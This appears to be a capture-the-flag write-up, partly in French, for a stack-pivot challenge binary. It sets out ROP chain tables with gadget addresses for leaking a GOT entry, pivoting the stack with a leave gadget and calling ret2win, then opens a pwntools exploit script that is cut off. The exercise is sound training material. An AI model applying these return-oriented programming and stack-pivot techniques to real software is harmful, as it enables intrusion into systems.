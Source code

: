 **1. Round 1 - message 1 : leak ropchain**

|address   | gadget | comment |
|----------|--------|------|
| <leak+0x200> |  | new rpb addr for leave |
| 0x601040 | foothold_function@plt | load foothold_function@got |
| 0x400a33 | pop rdi ; ret | load edi with foothold_function@got |
| 0x601040 | foothold_function@got |for rdi |
| 0x4006e0 | puts@plt | call puts(foothold_function@got) |
| 0x400a33 | pop rdi ; ret | load rdi with an addresse for pwnme |
| <leak+0x80> | | Argument for pwnme
| 0x4008f1 | pwnme | Recall pwnme

**2. Round 1 - message 2 : pivot**

Overflow until SEBP only

|address   | gadget | comment |
|----------|--------|------|
| @pivot | | note really in ropchaine but replace SRBP |
| 0x004009a6 | leave | pivot |

**3. Round 2 - message 1**

anything

**4. Round 2 - message 2 ret2win**

|address   | gadget | comment |
|----------|--------|------|
| @ret2win|  | foothold_function@got+0x117 | Calculated address |




#### Method 3 : modify a got.plt entry

No write gadget found


## Exploitation

### Methode 1 python script

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
import time
import sys

# Version avec appel de call rax

gs='''
b *pwnme+180
c
'''
# Offset avant ecrasement de l'adresse de RBP
offset=0x20

# Set up pwntools for the correct architecture
elf =  ELF('pivot')
```